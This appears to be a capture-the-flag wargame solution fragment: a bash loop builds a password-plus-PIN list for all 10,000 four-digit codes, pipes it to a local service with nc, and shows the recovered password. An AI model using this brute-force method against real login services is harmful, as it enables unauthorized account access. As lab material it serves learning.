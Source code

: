 ```bash
#!bin/bash

for i in {0000..9999}
        do
                echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i" >> /tmp/mytmp348/passlist.txt
        done
```

```
$ bash /tmp/mytmp348/brute.sh
$ cat /tmp/mytmp348/passlist.txt | nc localhost 30002
```

iCi86ttT4KSNe1armKiwbQNmB3YJP3q4


